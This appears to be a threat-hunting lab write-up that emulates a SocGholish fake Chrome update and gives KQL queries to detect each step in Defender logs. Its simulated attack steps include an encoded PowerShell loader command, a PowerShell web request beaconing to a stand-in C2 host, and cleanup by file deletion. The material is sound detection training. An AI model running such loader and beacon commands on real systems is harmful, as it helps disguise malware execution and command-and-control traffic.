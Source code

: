# Threat Event (SocGholish Fake Browser Update)
**Unauthorized SocGholish Loader Emulation**

## Steps the "Bad Actor" took to Create Logs and IoCs:
1. Visit a compromised website (simulated)
2. Downloads a fake Chrome update installer named: `chrome_update_fake.exe`
3. Executes the fake installer 
4. The "installer" then runs an obfuscated PowerShell encoded command: `powershell -enc UwBlAGMAdQByAGU=` (base64 for "secure", harmless)
5. PowerShell sends a simulated C2 check-in to a benign site: `Invoke-WebRequest -Uri "http://example.com/collect"`
6. Deletes the fake installer to mimic attacker cleanup: `Remove-Item C:\Users\<username>\Downloads\chrome_update_fake.exe`

---

## Tables Used to Detect IoCs:
| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceFileEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to detect fake update file creation, execution, and deletion. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcessEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| 	Used to detect the encoded PowerShell loader simulation.|

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceNetworkEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table|
| **Purpose**| Used to detect PowerShell network activity to the simulated C2.|

---

## Related Queries:
```kql
// Detect the fake update download
DeviceFileEvents
| where FileName contains "chrome_update_fake"

// Detect suspicious PowerShell with encoded command
DeviceProcessEvents
| where DeviceName == "nessa-windows"
| where ProcessCommandLine has "-enc"
| project Timestamp, DeviceName, ActionType, FileName, FolderPath, ProcessCommandLine, AccountName, AccountDomain
| order by Timestamp desc

// Detect PowerShell making outbound network request
DeviceNetworkEvents
| where InitiatingProcessFileName =~ "powershell.exe"
| project Timestamp, DeviceName, InitiatingProcessAccountName, RemoteIP, RemotePort, RemoteUrl
| order by Timestamp desc

// Detect deletion of the fake update file
DeviceFileEvents
| where FileName contains "chrome_update_fake" and ActionType == "FileDeleted"

```

---

## Created By:
- **Author Name**: Vanessa Mancia 
- **Author Contact**: https://www.linkedin.com/in/VanessaMancia/
- **Date**: June 30, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `September  6, 2024`  | `Josh Madakor`   
